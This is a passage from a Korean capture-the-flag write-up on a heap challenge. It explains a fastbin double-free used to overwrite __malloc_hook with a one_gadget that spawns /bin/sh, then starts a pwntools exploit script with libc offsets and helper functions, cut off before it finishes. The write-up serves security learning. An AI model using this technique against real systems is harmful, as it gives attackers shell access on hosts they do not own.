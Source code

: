 0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
</pre>

따로 조건을 만족하도록 제어할 능력이 없기 때문에 이들 중에서 운 좋게 성립하는 one_gadget을 쓸 것이다. 우선 0xf02a4을 쓰도록 하자.

**one\_gadget\_offset=0xf02a4**

---

hook을 조작하기 위한 과정은 다음과 같다.

(1) 0x60 malloc <br>
(2) 0x60 malloc <br>
(3) index 0 free <br>
(4) index 1 free <br>
(5) index 0 free <br>
(6) 0x60 malloc and hook address write <br>
(7) 0x60 malloc <br>
(8) 0x60 malloc <br>
(9) 0x60 malloc(this is hook) and onegadget address write

(3), (4), (5)와 같이 double free에 의해서 (6)에서는 index 0부분 chunk를 사용함과 동시에 원하는 address의 주소를 써준다. 그렇게 하면 (7)에서는 index 1부분의 chunk를 할당하고, (8)에서는 index 0부분의 chunk를 재할당 한 후, (9)에서는 적어두었던 원하는 주소에 chunk를 만들 수 있게 된다.

마지막으로는 double free error로 hook을 실행시키도록 한다. 다음과 같은 익스 코드를 통해서 쉘을 따낼 수 있었다.

<pre>
from pwn import*

p=remote('ctf.j0n9hyun.xyz', 3030)

free_offset=0x844f0
malloc_hook_offset=0x3c4b10
onegadget_offset=0xf02a4

def Malloc(size, text):
        p.recvuntil('> ')
        p.sendline('1')
        p.recvuntil(': ')
        p.sendline(str(size))
        p.recvuntil(': ')
        p.sendline(text)

def Free(index):
        p.recvuntil('> ')
        p.sendline('2')
        p.recvuntil(': ')
        p.sendline(str(index))

def Show(index):
        p.recvuntil('> ')
        p.sendline('3')
        p.recvuntil(': ')
        p.sendline(str(index))
